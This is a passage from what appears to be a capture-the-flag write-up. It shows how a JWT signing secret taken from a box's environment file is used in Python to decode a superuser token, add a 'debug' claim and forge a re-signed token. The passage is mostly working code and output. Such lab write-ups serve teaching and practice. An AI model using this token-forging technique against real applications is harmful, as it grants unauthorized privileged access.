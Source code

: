 
    settings = Settings()



It's pulled from the environment variable `API_KEY`. I already have that
from reading the `environ` file, "68b329da9893e34099c7d8ad5cb9c940"
(note, may change on each boot of the box).

#### Forge JWT

I'll drop into a Python terminal and validate. First I'll import `jwt`
and save the token and secret:



    >>> import jwt
    >>> token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1In0.NzuBABYGGm_bMA51kmwrBTIXTaUA4OTcYBEmqprF5vM"
    >>> secret = "68b329da9893e34099c7d8ad5cb9c940"



With the wrong secret, `jwt.decode` will throw an error by default:



    >>> jwt.decode(token, "0xdf", algorithms=["HS256"])
    Traceback (most recent call last):
      File "<stdin>", line 1, in <module>
      File "/home/oxdf/.local/lib/python3.8/site-packages/jwt/api_jwt.py", line 119, in decode
        decoded = self.decode_complete(jwt, key, algorithms, options, **kwargs)
      File "/home/oxdf/.local/lib/python3.8/site-packages/jwt/api_jwt.py", line 90, in decode_complete
        decoded = api_jws.decode_complete(
      File "/home/oxdf/.local/lib/python3.8/site-packages/jwt/api_jws.py", line 152, in decode_complete
        self._verify_signature(signing_input, header, signature, key, algorithms)
      File "/home/oxdf/.local/lib/python3.8/site-packages/jwt/api_jws.py", line 239, in _verify_signature
        raise InvalidSignatureError("Signature verification failed")
    jwt.exceptions.InvalidSignatureError: Signature verification failed



But with the secret from the environment, it works:



    >>> jwt.decode(token, secret, algorithms=["HS256"])
    {'type': 'access_token', 'exp': 1651755361, 'iat': 1651064161, 'sub': '12', 'is_superuser': True, 'guid': '83e3ed7a-d66d-4a27-a922-701fb9fdc755'}



I'll save the decoded data to `user`, add the `debug` key, and create a
new token:



    >>> user = jwt.decode(token, secret, algorithms=["HS256"])
    >>> user["debug"] = True
    >>> jwt.encode(user, secret,'HS256')
    'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjUxNzU1MzYxLCJpYXQiOjE2NTEwNjQxNjEsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODNlM2VkN2EtZDY2ZC00YTI3LWE5MjItNzAxZmI5ZmRjNzU1IiwiZGVidWciOnRydWV9.oyFkKgOC6zls6IY7i3-IOalxgFWXfyR3SRVlFVovLao'
